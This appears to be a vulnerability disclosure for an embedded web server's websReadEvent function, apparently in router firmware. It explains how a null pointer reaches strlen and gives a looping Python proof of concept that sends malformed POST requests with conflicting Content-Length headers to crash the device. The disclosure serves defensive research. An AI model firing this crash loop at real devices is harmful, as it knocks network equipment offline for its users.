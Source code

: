 - At address `0x4339dc` in the websReadEvent function, the value of `iVar2` is obtained as `wp->state`, which is 8.![getstate](./assets/getstate.png)

- As a result, in the `websReadEvent` function, because `iVar2 = 8` and there is content in `wp->query`, both the `if` and `else if` conditions are not satisfied, leading to the else branch being executed, which triggers the vulnerability.`strlen` is called with a null pointer, which leads to a segmentation fault when dereferenced internally.![ivar2_8](./assets/ivar2_8.png)


# POC

```python
import socket

host = "192.168.1.100"
port = 80
times = 0
while 1:
    times += 1
    print("times:"+str(times))
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host, port))
    request = (
        "POST /goform/GetIPTV?fgHPOST/goform/SysToo HTTP/1.1\r\n"
        "Content-Length:1\r\n"
        "Content-Length:# \r\n"
        "\r\n"
    )
    s.send(request.encode())
    response = s.recv(4096)
    print(response.decode())
    s.close()
```
